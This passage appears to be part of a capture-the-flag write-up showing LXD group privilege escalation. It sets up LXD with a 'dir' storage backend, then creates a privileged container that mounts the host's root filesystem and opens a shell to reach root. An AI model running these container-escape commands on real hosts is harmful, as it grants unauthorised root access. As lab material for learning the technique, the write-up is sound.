 ![8](./8.png)

If this error occurs, execute: 

```bash
lxd init
```

Just keep the defaults when asked by clicking enter and when asked `Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:`

Choose `dir` option.
Now execute this again after solving the error.

![9](./9.png)

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

That's it, we got root now print out the root flag right. Developer be like: "Hahahaha Not that Easy".

![10](./10.png)

